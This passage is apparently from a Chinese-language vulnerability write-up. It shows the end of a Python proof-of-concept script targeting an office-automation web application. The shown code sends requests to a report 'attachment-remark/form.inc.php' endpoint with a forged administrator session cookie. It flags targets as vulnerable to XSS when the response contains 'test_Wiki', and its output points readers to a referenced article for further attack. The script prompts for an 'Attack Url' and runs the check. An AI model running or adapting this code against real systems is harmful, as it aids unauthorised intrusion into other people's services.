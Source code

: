 ```python

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cookie):
    vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":  Cookie,
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test \033[0m".format(target_url))
        if "test_Wiki" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 test_Wiki,存在XSS漏洞, 可参考文章写的利用版本进一步攻击 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 test_Wiki\033[0m".format(target_url))
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = "USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31"
    POC_1(target_url, Cookie)
```

![image-20220209111615822](./images/202202091116959.png)

## 参考文章

https://paper.seebug.org/1499/